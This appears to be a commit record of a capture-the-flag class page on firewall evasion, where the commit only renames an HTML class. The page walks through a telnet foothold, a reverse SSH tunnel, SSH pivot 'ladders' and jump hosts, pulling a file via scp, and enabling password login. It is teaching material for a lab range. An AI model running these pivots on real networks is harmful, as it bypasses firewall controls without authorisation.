

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/Portalord/Portalord.md, in a window 1280 px wide and 900 px high, scrolled down 865 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update Portalord.md

```diff
--- a/classes/Portalord/Portalord.md
+++ b/classes/Portalord/Portalord.md
@@ -29,19 +29,19 @@
 Or set it up manually. You'll learn more but it takes more time:
 
 Set up the ufw (Uncomplicate FireWall) firewalls to block all traffic to port 22
-<div class="scroll-box">
+<div class="terminal">
 sudo ufw deny 22
 sudo ufw allow 23
 sudo ufw enable
 </div>
 
 Turn password authentication on for the ssh-closed-box.
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 
 Create a file that is only accessable to an ssh session by setting a "read only by owner"
-<div class="scroll-box">
+<div class="terminal">
 echo "insert a flag here" > /home/ubuntu/ssh_flag.txt
 chmod 600 /home/ubuntu/ssh_flag.txt
 </div>
@@ -57,7 +57,7 @@
 so 600 = 4+2 for the owner and 0 for group and 0 for everyone else
 
 Create a user that can only access telnet specific files
-<div class="scroll-box">
+<div class="terminal">
 sudo adduser teluser
 </div>
 
@@ -65,11 +65,11 @@
 
 set limited permissions for teluser
 
-<div class="scroll-box">
+<div class="terminal">
 sudo nano /usr/local/bin/telnet_shell.sh
 </div>
 Put the following restrictions on the telnet users /bin/bash:
-<div class="scroll-box">
+<div class="terminal">
 #!/bin/bash
 echo "You have limited access."
 echo "You may only use: ls, cat"
@@ -78,27 +78,27 @@
 </div>
 
 install and open telnet services
-<div class="scroll-box">
+<div class="terminal">
 sudo apt update && sudo apt install telnetd -y && sudo apt install openbsd-inetd -y
 </div>
 
 ## On the attacker-box
 Install telnet if needed:
-<div class="scroll-box">
+<div class="terminal">
 sudo apt update && sudo apt install telnet -y
 </div>
 
 Turn on your ability to reverse ssh with a password:
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 
 Now telnet into the ssh-closed-box
-<div class="scroll-box">
+<div class="terminal">
 telnet x.x.x.x
 </div>
 Now bind a local high port to local 22:
-<div class="scroll-box">
+<div class="terminal">
 ssh -N -R 2222:localhost:22 kali@your.kali.ip.addr.
 </div>
 -N means --no-shell, -R means:--remote-port-forward
@@ -106,7 +106,7 @@
 If it appears to "hang" you have an open connection
 
 Now from a differnt terminal on you kali localhost
-<div class="scroll-box">
+<div class="terminal">
 ssh -p 2222 ubuntu@localhost
 </div>
 What you are doing is connecting to your local port 2222, which has an open ssh session from the remote device. You are using that port 2222 to ssh to port 22 on the remote device which is only blocked at the firewall and not on the local machine.
@@ -120,7 +120,7 @@
 Step 1: Set up the environment that you will be laddering (at least two, so you will need a partner on the cyber.org range)
 
 ubuntu 1: deny from attack box ip
-<div class="scroll-box">
+<div class="terminal">
 sudo ufw default allow incoming
 sudo ufw deny from kali.1.ip.addr to any
 sudo ufw deny from kali.2.ip.addr to any
@@ -129,31 +129,31 @@
 </div>
 
 ubuntu 2: allow from attack box ip
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 
 kali 1: ladder method
-<div class="scroll-box">
+<div class="terminal">
 ssh -N -L 2223:localhost:22 ubuntu@al.lo.w.ip
 </div>
 - this ties your local loopback ip address port 2223 to your ubuntu@allowip port 22
 - test the first step of the "ladder" with ssh -p 2223 ubuntu@localhost
-<div class="scroll-box">
+<div class="terminal">
 ssh -N -p 2223 -L 2224:de.ny.ip.addr:22 ubuntu@localhost
 </div>
 this window will hang- that is success.
 
 open a new terminal
-<div class="scroll-box">
+<div class="terminal">
 ssh -p 2224 ubuntu@localhost
 </div>
 
 kali 2: jump method
-<div class="scroll-box">
+<div class="terminal">
 ssh -J ubuntu@allowedIP ubuntu@blockedIP
 </div>
-<div class="scroll-box">
+<div class="terminal">
 scp -J ubuntu@allowedIP ubuntu@blockedIP:/directory/file.txt /directory/to/local
 </div>
 
@@ -165,7 +165,7 @@
 
 
 Ubuntu 1: deny from attack box IP
-<div class="scroll-box">
+<div class="terminal">
 sudo ufw default allow incoming
 sudo ufw deny from kali.1.ip.addr to any
 sudo ufw deny from kali.2.ip.addr to any
@@ -174,31 +174,31 @@
 </div>
 
 Ubuntu 2: allow from attack box IP
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 
 Kali 1: attack box
-<div class="scroll-box">
+<div class="terminal">
 Step 1) make your fifo pipe and remote capture
 mkdir -p ~/Desktop/rc/
 mkfifo ~/Desktop/rc/capture_pipe
 </div>
 
 Step 2) Starting Wireshark with -k and -i options
-<div class="scroll-box">
+<div class="terminal">
 sudo wireshark -k -i ~/Desktop/rc/tunnel_capture
 </div>
 
 Step 3) Make a ladder to your remote capture tunnel
-<div class="scroll-box">
+<div class="terminal">
 ssh -N -L 3301:localhost:22 ubuntu@al.lo.w.ip
 </div>
 - for the the local port you pick does not matter, I try to keep them organized in a way I can remember (i.e. 33301 is the first box 33302 is the second... etc)
 - it's good to always test your jumps by attempting to ssh -p xxxx user@localhost for each step.
 
 Next make your ladder 'jump'
-<div class="scroll-box">
+<div class="terminal">
 ssh -N -p 3301 -L 3302:de.ny.ip.addr:22 ubuntu@localhost
 </div>
 
@@ -212,24 +212,24 @@
 
 Ubuntu 2: this is the target device
 We need to temporatily enable ssh password auth so we can transfer the access key
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 
 Ubuntu 1: this is the pivot device that will have access via ssh-key
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 - this will stay on so we can move into this device
 
-<div class="scroll-box">
+<div class="terminal">
 ssh-keygen -b 4096
 </div>
 - this default saves to the /home/ubuntu/.ssh/id_rsa press enter
 - leave the passphrase blank for now by pressing enter
 
 Check to see that the keys were created
-<div class="scroll-box">
+<div class="terminal">
 ls ~/.ssh/
 </div>
 - you should see authorized_keys, id_rsa (your private key), and id_rsa.pub (your public key)
@@ -238,7 +238,7 @@
 ssh-copy-id -i ~/.ssh/id_rsa.pub ubuntu@ubuntu2ip
 
 Ubuntu 2: now turn off password authentication
-<div class="scroll-box">
+<div class="terminal">
 sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication no/' /etc/ssh/sshd_config && sudo systemctl restart ssh
 </div>
 
```
